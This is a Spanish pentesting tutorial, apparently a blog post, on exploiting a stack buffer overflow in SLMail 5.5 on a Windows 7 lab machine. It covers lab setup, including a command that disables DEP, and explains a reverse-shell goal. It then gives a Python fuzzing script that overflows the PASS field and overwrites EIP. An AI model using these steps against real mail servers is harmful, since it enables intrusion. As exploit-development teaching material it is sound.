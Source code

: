 ```yaml
---
layout: single
title: Stack Buffer Overflow en Windows
excerpt: "En este artículo vemos cómo explotar un stack buffer overflow en una aplicación vulnerable llamada SLMail corriendo en una máquina virtual con windows 7 x86."
date: 2021-02-13
classes: wide
header:
  teaser: /assets/images/Stack-Buffer-Overflow-Windows/buffer-overflow-windows.jpg
  teaser_home_page: true
categories:
  - Buffer-Overflow
tags:
  - Buffer Overflow
  - Python
  - Pentesting
---
```


![](/assets/images/Stack-Buffer-Overflow-Windows/buffer-overflow-windows.jpg)

En este artículo veremos cómo explotar un buffer overflow en una aplicación vulnerable llamada SLMail corriendo en una máquina virtual Windows 7 x86.

Primero quiero agradecer a s4vitar por su tutorial y por servirme de inspiración.

Necesitaremos una máquina virtual con windows 7 x86, el software SLMail v5.5, inmunity debuguer y mona.py para añadir funcionalidades al debuguer.

Links de descarga:

[SLMail 5.5](https://slmail.software.informer.com/5.5/)<br>
[Inmunity debuguer](https://www.immunityinc.com/products/debugger/)<br>
[Mona.py](https://github.com/corelan/mona/blob/master/mona.py)<br>

Instalaremos SLMail y inmunity debuguer en la máquina windows, y luego añadiremos mona al inmunity debuguer. Para ello descargaremos el script y lo colocaremos en la ruta C:\Program Files\Inmunity Inc\Inmunity Debuguer\PyCommands\.

Además tendremos que crear reglas en el firewall de windows para permitan el tráfico en los puertos 25 y 110. Y por último deshabilitar el DEP con el siguiente comando ejecutado como administrador:

`bcdedit.exe /set {current} nx AllwaysOff`

Cuando tengamos esto ya podemos empezar a practicar.

Si lanzamos un nmap a la ip de la máquina tiene que responder con los puertos 25 y 110 abiertos, entre otros.

![](/assets/images/Stack-Buffer-Overflow-Windows/nmap-slmail.png)

En la máquina windows siempre ejecutaremos las aplicaciones SLMail y inmunity debuguer como administrador. Abrimos las dos aplicaciones, en el debuguer pulsamos en File/Atach, seleccionamos el proceso SLmail, y pulsamos en el icono Run Program o pulsamos F9.

![](/assets/images/Stack-Buffer-Overflow-Windows/slmail.png)

![](/assets/images/Stack-Buffer-Overflow-Windows/inmunity.png)

En este punto si hacemos un searchsploit slmail vemos que hay varios exploits que se aprovechan del campo PASS en el momento de la autenticación. Con lo cual el campo vulnerable es PASS.

![](/assets/images/Stack-Buffer-Overflow-Windows/searchsploit-slmail.png)

## Explicación sencilla del stack buffer overflow

Una explicación sencilla sería la siguiente. Cuando alguien se autentica contra el SLMail, tiene que introducir lógicamente un usuario y contraseña. Bien pues en el campo PASS no se está controlando la cantidad de bytes que puede aceptar, con lo cual si nosotros le pasamos más de los que tiene definidos a nivel de código se producirá un desbordamiento de memória, y estaremos sobreescribiendo partes de la memória que no deberian de tomar esos valores para una ejecución normal del programa.

Se trata de tomar el control del registro EIP, que siempre apunta a la próxima dirección de memoria a ejecutar, para que el flujo del programa se desplace hasta la dirección que nosotros queramos, donde habremos sobreescrito los valores de esas direcciones con nuestro shellcode, que nos lanzará una reverse shell y nos conectará a la máquina victima.

## Exploit inicial

Empezamos con el exploit. Crearemos un script en python que se conectará a la máquina windows en el puerto 110 y le pasará un usuario, y en el campo PASS le iremos pasando el carácter "A" muchas veces para ver cuando corrompe el programa.

El código es el siguiente:

```python
#!/usr/bin/python
#coding: utf-8

from pwn import *
import socket, sys

if len(sys.argv) < 2:
        print "\n[!] Uso: python " + sys.argv[0] + " <ip_address>\n"
        sys.exit(0)

#Variables globales
ip_address = '192.168.1.20'
rport = 110

if __name__ == '__main__':
        buffer = ["A"]
        contador = 350

        while len(buffer) < 32:
                buffer.append("A"*contador)
                contador += 350


        p1 = log.progress("Data")


        for strings in buffer:

                try:
                        p1.status("Enviando %s bytes" % len(strings))
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((ip_address, rport))

                        data = s.recv(1024)

                        s.send("USER ximo\r\n")
                        data = s.recv(1024)
                        s.send("PASS %s\r\n" % strings)
                        data = s.recv(1024)

                except:
                        print "\n[!] Ha habido un error de conexión\n"
                        sys.exit(1)

```

Ejecutamos el exploit y vemos lo que sucede en el inmunity debuguer. Podemos ver que se ha corrompido el programa porque hemos sobreescrito direcciones de memória, incluido el registro EIP que ahora apunta a la dirección 0x41414141, que son nuestras "A", y al no ser una dirección válida se detiene el flujo de ejecución.

![](/assets/images/Stack-Buffer-Overflow-Windows/exploit-inicial.png)

